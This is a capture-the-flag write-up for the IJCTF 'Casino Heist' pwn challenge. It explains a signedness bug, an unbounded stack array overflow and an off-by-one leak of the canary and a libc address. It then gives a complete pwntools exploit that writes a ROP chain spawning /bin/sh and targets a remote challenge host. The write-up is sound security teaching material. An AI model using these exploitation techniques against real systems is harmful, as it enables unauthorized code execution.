 IJCTF Pwn Challenge Writeup by Shiro (Pycatchown sometimes)
# Casino Heist

## Part 1 - Reverse engineering

The code is terrible (of course, it's a challenge).

Sometimes ints are used, sometime it's int64, sometimes it's signed, sometimes it's not, well, we quickly identify at least one of the vulnerabilities without even really digging into the code.

We have a wallet, this wallet starts at 20 dollars, we can bet at least 5 dollars and no more than our wallet. If we fall at 0, the program exits itself, we can jackpot, and we can double the bet sometimes by adding a "m" at the end of our number.
Each bets are append into a array of uint64, which is located into the stack. It's of size 10, and isn't bounded by anything, which means that if we can make more than 10 bets without go bankrupt, we can overflow this array.

I didn't noticed the last bug instantly because I didn't realized the binary was compiled with stack smashing protection, but there is also an off by one in the print_bets function, which prints one element too far.
```c
for ( i = 0; ; ++i )
  {
    result = (unsigned int)idx_jour;
    if ( i > idx_jour )
      break;
    printf("Bet #%d: Value %ld\n", (unsigned int)i, a1[i]);
  }
```
Here we can see the condition is to break when i is strictly superior to idx_jour (the index used on the array we can overflow), since an array starts at 0, we can print one element too far.

## Part 2 - Exploitation

We're on a CTF so at this point I go straight away and fuzz a little, expecting the binary to bug out with negative or big values (thanks to the fact that the types are not coherent with each functions), so I did a little script that plays the binary over and over again until I win twice a bet with the maximum of my wallet, I tried to bet again with a value doubled, and I ended up with a negative wallet.

Since not everything is signed, that meant that my negative value was considered a very big number since the wallet on itself is stored within a uint64, which means that I could basically bet any values I wanted (well, almost). That also meant that I was not limited by luck anymore in order to apply as many bets as I wanted since my wallet was practically infinite.

So I tried to overflow the array of int64, and succeeded overflowing the binary until the saved rip.
However, the binary is compiled with stack protection flag, which means if we want to exploit, we'll have to either find a way not to overwrite the canary, or find a way to leak it.

Here comes the off by one on the print_bets function, which allows us to get the value we're about to overwrite before overwriting it.

At this point it's won. Since we have a leak we don't bother leaking anything thanks to the rop itself, we just leak the canary, the original value of the saved rsp (as we smash the main) so we can have a libc leak, and go straight for `execv("/bin/sh", NULL)`.

## 3 - Exploit code

```python
#!/usr/bin/env python
from pwn import *

exe = context.binary = ELF('boiler')
context.terminal = "gnome-terminal --geometry=110x60 -- bash -c".split(" ")


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REM:
        return remote("34.126.147.93", 2200)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled


def exploit():
    offset_til_saved_rsp = 117

    ## Overflowing until the canary on the stack
    for i in range(offset_til_saved_rsp-3):
        x = io.sendlineafter(b"Enter bet value: ", "5", timeout=5)
        print(x)
        if x == b"":
            io.interactive()

    ## Leaking canary/libc adress
    io.sendlineafter(b"Enter bet value: ", b"v")
    io.recvuntil("Bet #117: Value ")
    canary = int(io.recvline())
    print(hex(canary))
    io.sendlineafter(b"Enter bet value: ", str(canary))
    io.sendlineafter(b"Enter bet value: ", "5")
    print("a") # Don't mind, it's just a trick to make the remote IO working
    io.sendlineafter(b"Enter bet value: ", b"v")
    io.recvuntil("Bet #119: Value ")
    libcleak = int(io.recvline())
    print(hex(libcleak))
    libc = ELF("./libc-2.31.so")
    libc.address = libcleak- 0x270b3
    ##

    ##Because I'm lazy (Rop writing into the stack)
    rop = ROP(libc)
    rop.execv(next(libc.search(b"/bin/sh\x00")), 0)
    x = rop.chain()
    payload = [x[i:i+8] for i in range(0, len(x), 8)]
    for gadget in payload:
        gadget = u64(gadget)
        io.sendlineafter(b"Enter bet value: ", str(gadget))
    ##
    io.sendline("x") # exit main loop
    io.interactive()


while 1:
    io = start()

    io.sendlineafter(b"name:\n", b"a")
    io.sendlineafter(b"value: ", b"20")
    res = io.recvline()
    if b"lose" in res:
        io.close()
        continue
    else:
        io.sendlineafter(b"value: ", b"40")
        res = io.recvline()
        print(res)
        if b"lose" in res:
            io.close()
            continue
        else:
            #context.log_level = "DEBUG"
            io.sendlineafter(b"value: ", b"80m")
            #gdb.attach(io, gdbscript="b *(unsigned long long*)(&main+1322)")
            exploit()
            io.interactive()
            io.close()
            exit(0)
```

Thanks to the author if this challenge, lionaneesh. We don't see a lots of type mis-management challenges and more generally, I enjoy challenges wich doesn't only rely in one vulnerability, so this was a fun one to me.
